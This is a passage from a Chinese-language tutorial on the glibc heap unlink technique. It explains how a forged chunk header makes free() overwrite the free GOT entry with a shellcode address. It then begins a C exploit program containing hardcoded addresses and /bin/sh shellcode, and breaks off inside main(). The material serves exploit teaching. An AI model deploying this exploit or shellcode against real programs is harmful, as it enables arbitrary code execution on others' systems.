现在让我们假设，攻击者在行`[3]`覆盖了`second`块的块头部，像这样：

+   `prev_size `为偶数，因此`PREV_INUSE`是未设置的，
+   `size = -4`
+   `fd`为`free`的地址减 12
+   `bk`为 Shellcode 的地址

在攻击者的影响下，行`[4]`的`free`会做下面的事情：

+   对于不是 mmap 的块，会向前或向后合并。
+   向后合并
    +   查看前一个块是不是空闲的 -- 前一个块是空闲的，如果当前空闲块的`PREV_INUSE(P)`位没有设置。但是我们这里，前一个块是分配的，因为它的`PREV_INUSE`位设置了，通常堆内存的第一个块的前面那个块是分配的（即使它不存在）。
    +   如果空闲，合并它。例如，从 binlist unlink（移除）前一个块，将前一个块的大小与当前块相加，并将块指针指向前一个快。但是我们这里，前一个快是分配的，因此 unlink 不会调用。当前空闲块`first`不能向后合并。
+   向前合并
    +   查看下一个块是不是空闲的 -- 下一个块是空闲的，如果下下个块（距离当前空闲块）的`PREV_INUSE (P)`位未设置。为了访问下下个块，将当前块的大小加到它的块指针，再将下一个块的大小加到下一个块指针。我们这里，距离当前空闲块的下下个块不是 top 块。下下个块在`second`块的 -4 偏移处，因为攻击者将`second`块的大小覆盖成了 -4。因此现在 glibc malloc 将`second`块的`prev_inuse `字段看做下下个块的大小字段。由于攻击者覆盖了一个偶数（也就是`PREV_INUSE (P)`为是没有设置的）来代替`prev_size`，glibc malloc 被欺骗来相信`second`块是空闲的。
    +   如果是空闲的，合并它。例如，从它的 binlist 中 unlink（移除）下一个块，并将下一个块的大小添加到当前大小。我们这里下一个块是空闲的，因此`second`块会像这样被 unlink：
        +   将`second`块的`fd`和`bk`值复制到`FD`和`BK`变量中。这里，`FD`是`free`的地址 -12，`BK`是 shellcode 的地址（作为堆溢出的一部分，攻击者将它的 shellcode 放到了`first`堆缓冲区中）。
        +   `BK`的值复制到了距离`FD`偏移为 12 的位置。我们这里将 12 字节加到`FD`，就指向了`free`的 GOT 条目，因此现在`free`的 GOT 条目就覆盖成了 shellcode 地址。好的。现在无论`free`在哪里调用，shellcode 都会执行。因此漏洞程序中行`[5]`的执行会导致 shellcode 执行。
    +   现在将合并后的块添加到 unsorted bin 中。
    
看看漏洞程序的堆内存的图片，在攻击者影响用户输入之后：

![2](http://upload-images.jianshu.io/upload_images/118142-d2d3b7ddf548294f.png)

理解了 unlink 技巧之后，让我们编写利用程序吧。

```c
/* Program to exploit 'vuln' using unlink technique.
 */
#include <string.h>
#include <unistd.h>

#define FUNCTION_POINTER ( 0x0804978c )         //Address of GOT entry for free function obtained using "objdump -R vuln".
#define CODE_ADDRESS ( 0x0804a008 + 0x10 )      //Address of variable 'first' in vuln executable. 

#define VULNERABLE "./vuln"
#define DUMMY 0xdefaced
#define PREV_INUSE 0x1

char shellcode[] =
        /* Jump instruction to jump past 10 bytes. ppssssffff - Of which ffff would be overwritten by unlink function
        (by statement BK->fd = FD). Hence if no jump exists shell code would get corrupted by unlink function. 
        Therefore store the actual shellcode 12 bytes past the beginning of buffer 'first'*/
        "\xeb\x0assppppffff"
        "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";

int main( void )
{
        char * p;
        char argv1[ 680 + 1 ];
        char * argv[] = { VULNERABLE, argv1, NULL };

        p = argv1;
        /* the fd field of the first chunk */
```